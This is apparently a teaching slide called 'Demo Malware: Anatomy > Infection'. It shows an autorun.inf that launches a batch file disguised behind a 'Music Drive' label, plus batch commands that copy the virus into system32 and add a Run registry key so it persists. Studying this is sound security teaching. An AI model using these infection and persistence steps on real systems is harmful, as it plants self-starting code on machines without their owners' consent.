

# Demo Malware: Anatomy > Infection
Autorun.inf

PropagateVirusTEST.bat

[autorun]
label=Music Drive
shell=lost
shell\lost\command=PropagateVirusTEST.bat
UseAutoPlay=1
copy VirusTEST.bat %systemroot%\system32\VirusTEST.bat > nul
reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v VirusTEST /t REG_SZ /d %systemroot%\system32\VirusTEST.bat /f > nul
24